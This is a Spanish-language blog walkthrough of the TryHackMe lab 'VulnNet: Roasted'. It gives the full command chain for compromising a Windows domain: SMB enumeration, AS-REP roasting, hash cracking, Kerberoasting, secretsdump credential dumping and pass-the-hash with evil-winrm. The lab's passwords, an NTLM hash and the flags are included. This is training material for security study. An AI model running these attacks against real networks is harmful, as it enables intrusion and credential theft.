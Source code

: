 ```yaml
---
layout: post
title: "Write Up VulnNet: Roasted."
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Windows,THM,ASREPRoasting,Kerberoasting,Windows-Server,Active-Directory,Walkthrough,OSCP,EvilWinRM]
image:
  path: /assets/img/vulnnet/vulnnet.png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
sudo nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.244.143 -oG allports
```


### Services and Versions


```bash
nmap -sCV -p53,135,139,445,5985,49665 10.10.244.143 -oN target -Pn
```


![list](/assets/img/vulnnet/Kali-2022-09-19-14-19-50.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis


### SMB TCP-445-139


Estando abierto los puertos 139 y 445 imediatamente lo que debemos hacer es tratar de explotar el smb,esto lo hacemos con crackmapexec, smbclient,smbmap entre otros.


![list](/assets/img/vulnnet/Kali-2022-09-19-14-31-26.png){:.lead width="800" height="100" loading="lazy"}


```bash
smbclient -L 10.10.244.143 -N
```


{:.note}
Listamos los shares.


Con crackmapexec vemos si el smb esta firmado ademas del dominio entre ota informacion.


![list](/assets/img/vulnnet/Kali-2022-09-19-14-32-17.png){:.lead width="800" height="100" loading="lazy"}


```bash
crackmapexec smb 10.10.244.143
```


{:.note}
El doninio es `vulnnet-rst.local` lo ,lo agrgamos al `/etc/hosts`.


Los siguiente es movernos por el recurso smb o crearnos una montura pero en este caso como vemos que hay dos shares con user anonymous esto lo deducimos por su nombre, si husmeamos en dichos sharea nos encontramos con archivos.txt que podemos bajarnos a la maquina atacante, simplemente son conversaciones entre usuarios del sitema lo cual es bueno por lo cual podemos enumerar dichos usuarioa para hacer el ataque de [ASREPRoast], el cual implica en tener usuarios del sistema para consegir un hash. 


![list](/assets/img/vulnnet/Kali-2022-09-19-14-46-29.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos habla de un usuario alexa whitehat que es business manager de la empresa.


![list](/assets/img/vulnnet/Kali-2022-09-19-14-46-40.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Un tal jack goldenhand que el se encarga de las propuestas de negocios.


![list](/assets/img/vulnnet/Kali-2022-09-19-14-46-46.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nada interesante.


![list](/assets/img/vulnnet/Kali-2022-09-19-14-50-38.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nada interesante.


![list](/assets/img/vulnnet/Kali-2022-09-19-14-50-58.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
**Tony skid** es el **security manager** a este debemos prestarle mas atencion por rol en la empresa.


![list](/assets/img/vulnnet/Kali-2022-09-19-14-51-11.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
**Johnny leet** jefe de infraestructura.


[ASREPRoast]: https://www.hackplayers.com/2020/11/asreproast-o-as-rep-roasting.html#:~:text=El%20ASREPRoast%20es%20una%20t%C3%A9cnica,requiere%20pre%2Dautenticaci%C3%B3n%20en%20kerberos.


Exite varias herramentas que enumeran usauarios y grupos de smb y rcp, podemos usar `rcpclient` pero ene ste caso utilizaremos `lookupsid.py`.


```bash
lookupsid.py anonymous@10.10.244.143
```


![list](/assets/img/vulnnet/Kali-2022-09-19-15-02-03.png){:.lead width="800" height="100" loading="lazy"}


***

## Exploitation


Con los usuarios que obtubimos anteriormente podemos grepearlos o simplmente copiarlos y meterlos aun archivo txt llamado users.txt, y procedemos con el ataque ASREPRoast para esto podemos usar `kerbrute`, al caul al listado de usuario debemos agregarle el `@vulnnet-rst.local`, en este caso vamos usar [GetNPUsers.py].


```bash
GetNPUsers.py -dc-ip 10.10.244.143 -usersfile users.txt -no-pass vulnnet-rst.local/
```


![list](/assets/img/vulnnet/Kali-2022-09-19-16-06-42.png){:.lead width="800" height="100" loading="lazy"}


Copiamos el hash y lo guardamos en un archivo con el nombre `hash` procedemos a crackear lo con john the ripper de la siguiente forma.


```bash
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```


![list](/assets/img/vulnnet/Kali-2022-09-19-16-08-25.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Esperamos un poco y optenemos la contraseña que es `tj072889*`. 


Por lo anterior tenemos el dominio + un usuario + una contraseña  podemos probar un ataque [Kerberosting]


```bash
GetUserSPNs.py 'vulnnet-rst.local/t-skid:tj072889*' -dc-ip 10.10.206.89
```


![list](/assets/img/vulnnet/Kali-2022-09-19-16-18-02.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Antes de segir por este camino ya que tenemos usuario y credeciales validas lo que podemos hacer loogearnos a al servicion de smb.


Nos logeamos al share de `NETLOGON` en el samba con las credeciales y encontramos un archivo.txt con credeciales validas.


```bash
smbclient -U vulnnet-rst.local/t-skid //10.10.244.143/NETLOGON
```


![list](/assets/img/vulnnet/Kali-2022-09-19-16-27-33.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Inspeccionando el archivo tenemos que strUserNTName = `a-whitehat`y strPassword = `bNdKVkjv3RR9ht`.


Con crackmapexec comprobamos si las credenciales son validad.


```bash
crackmapexec smb 10.10.206.89 -u "a-whitehat" -p "bNdKVkjv3RR9ht"
```


![list](/assets/img/vulnnet/Kali-2022-09-19-16-30-14.png){:.lead width="800" height="100" loading="lazy"}


Podemos conectarnos a la maquina y obner la flag que se encuentra en el direcctorio `/Desktop/user.txt`, es `THM{726b7c0baaac1455d05c827b5561f4ed}`.


```bash
evil-winrm -i 10.10.244.143 -u "a-whitehat" -p "bNdKVkjv3RR9ht"
```


![list](/assets/img/vulnnet/Kali-2022-09-19-17-37-50.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Tendremos que escalar privilegios para obtener la otra flag.


[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html


[GetNPUsers.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py


[reverse-shell]: https://www.revshells.com/


***
## Escalacion de privilegios 


Siempre es bueno ejecutar `WimEnum` Y `ADEnum` para monitorizar y ver los posibles vectores para escalar de privilegios.


En este caso usaremos la herramienta [secretsdump.py], este script se encarga de realizar un volcado completo de los SAM/LSA Secrets, credenciales cacheadas, información sensible almacenada en el registro y los hashes NTLM del sistema.


[secretsdump.py]: https://thehackerway.com/2021/05/24/network-hacking-con-impacket-parte-3/#:~:text=Volcado%20de%20%C2%ABWindows%20Secrets%C2%BB%20con,los%20hashes%20NTLM%20del%20sistema.


```bash
secretsdump.py vulnnet-rst.local/a-whitehat@10.10.244.143
```

{:.note}
Nos muestra los secretos de la mayoria de todos los usuarios peor elque nos interesa en el de Administrator.


Con ese hash de `Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::` podemos hacer pass de hash para ingresar al usuario privilegiado de la siguiente manera.


```bash
evil-winrm -i 10.10.244.143 -u 'Administrator' -H 'c2597747aa5e43022a3a3049a3c3b09d'
```


{:.note}
Para hacer pass de hash solo nos interesa el ultimo tercio del hash de administrator.


![list](/assets/img/vulnnet/Kali-2022-09-19-17-30-29.png){:.lead width="800" height="100" loading="lazy"}


Con lo anterior ya somos root lo siguientes es bucar la root de superusuario de la misma forma que hicimos con el usuario de menos privileguios.


![list](/assets/img/vulnnet/Kali-2022-09-19-17-38-24.png){:.lead width="800" height="100" loading="lazy"}


Obtenemos la flag que se encuentra en el direcctorio `Desktop\system.txt`, es `THM{16f45e3934293a57645f8d7bf71d8d4c}`.


***
```bash
🎉 Felicitaciones ya has comprometido VulnNet: Roasted de Try Hack Me. 🎉
```
{:.centered}
***

***
Back to [Certification OSCP](2022-09-22-Vulnnet_Roasted-THM.md){:.heading.flip-title}
{:.read-more}
